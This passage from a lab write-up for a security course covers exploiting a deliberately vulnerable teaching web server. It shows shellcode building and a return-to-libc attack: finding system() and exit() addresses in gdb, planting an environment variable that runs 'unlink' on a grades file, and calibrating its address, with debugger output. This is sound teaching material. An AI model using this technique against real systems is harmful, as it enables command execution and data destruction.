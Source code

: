 The new shellcode can be created as follows:

    httpd@vm-6858:~/lab$ make shellcode.S shellcode.bin
    
The final exploit code for this exercise can be found in the [exploit-3.py](https://github.com/ukk1/ITKST53/blob/master/Lab1/exploit-3.py) file.

------

###Exercise 4

In the return to libc exercise we used the following technique to achieve the goal to unlink the grades.txt file:

The idea was to use a system function call that we are using to execute our own, custom environment variable that will be used to unlink the grades.txt file.

First, we locate the system function call address from gdb while we are attached to the zoobar process.

    (gdb) p system
    $1 = {<text variable, no debug info>} 0xb7e6b100 <__libc_system>
    
The printed address is the one we will be using in our exploit in the RET call. After this, we will use the exit() function to terminate the program gracefully.

    (gdb) p exit
    $2 = {<text variable, no debug info>} 0xb7e5e150 <__GI_exit>

Next, we create the environment variable that we will be using in our exploit. 

    export RM="unlink /home/httpd/grades.txt"
    
Now we need to locate the environment variable address in the memory. We used a script provided by here http://www.infosecwriters.com/text_resources/pdf/return-to-libc.pdf.

    httpd@vm-6858:~/lab$ ./getenv RM
    RM is stored at address 0xbffff8ca
    
It is important to note that the environment variable we create is only good in the shell under which it is created. If we try to search the variable in another shell, we get an error:

    httpd@vm-6858:~/lab$ ./getenv RM
    Environmental variable RM does not exist!

The memory address of the environment variable is not always the exact address and usually it is necessary to deduce the environment variable address:

    zookd-nxstack: [2352] Request failed: Error forwarding request: /AAAAAA.....snip....AAAAAAAA
    [New process 2361]
    process 2361 is executing new program: /bin/dash
    sh: 1: k: not found
    zookfs-nxstack: recvfd: Success
    [Inferior 2 (process 2361) exited with code 0177]

By counting backwards 5 bytes, we get the correct address, which is 0xbffff8c5. After modifying our exploit with the correct address we successfully unlink the grades.txt file.

    [New process 2458]
    process 2458 is executing new program: /bin/dash
    [New process 2459]
    process 2459 is executing new program: /usr/bin/unlink
    zookfs-nxstack: recvfd: Success
    [Inferior 3 (process 2459) exited normally]
    